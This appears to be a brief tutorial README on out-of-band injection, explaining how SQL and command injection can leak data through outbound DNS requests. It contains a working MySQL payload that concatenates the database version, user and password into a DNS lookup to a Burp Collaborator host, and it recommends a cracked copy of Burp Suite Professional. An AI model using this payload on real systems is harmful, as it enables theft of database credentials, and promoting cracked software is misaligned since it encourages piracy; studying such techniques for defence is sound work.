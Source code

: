 <h1 align="Center">Out-of-band Injection Theory</h1>

### OOB injection is an exploitation to exfiltrate data and information through different outbond channel

## Traditional Injection Technique (In-Band)


![Web Archi](../photo/inband.png)

#### eg SQL Databse Query to make DNS request

```
select
load_file(CONCAT('\\\\',(SELECT+@@version),'.',(SELECT+user),'.',
(SELECT+password),'.','n5tgzhrf768l71uaacqu0hqlocu2ir.burpcollabo
rator.net\\vfw'))
```


<br>

## OOB Injection



![Web Archi](../photo/oob.png)

# How to get listening server
	1. Install BurpSuite Professional (Crack)
	2. Use Bure Collaborator Client 
	4. DNS request to listening Server
	3. Collect captured info


## Formuala

### For Command Injection

`𝑂𝑂𝐵 Commandinjection = 𝐹𝑖. (system 𝑐𝑜𝑚𝑚𝑎𝑛𝑑𝑠 + 𝐹𝑄𝐷𝑁)`

where,

<pre>
Fi 		= function that initiates outbound request<br>
FQDN 	= domain name of the listening server (Burpcollaborator domain name)
</pre>

### For Sql Injection

`𝑂𝑂𝐵 𝑆𝑄𝐿𝑖 = 𝐹𝑖. (𝑆𝑄𝐿 𝑐𝑜𝑚𝑚𝑎𝑛𝑑𝑠 + 𝐹𝑄𝐷𝑁)`


<pre>
Fi 		= function that initiates outbound request<br>
FQDN 	= domain name of the listening server (Burpcollaborator domain name)
</pre>


#### References
A Study of Out-of-Band Structured Query Language Injection by Lee Chun How  (doi: 10.5281/zenodo.3556347)
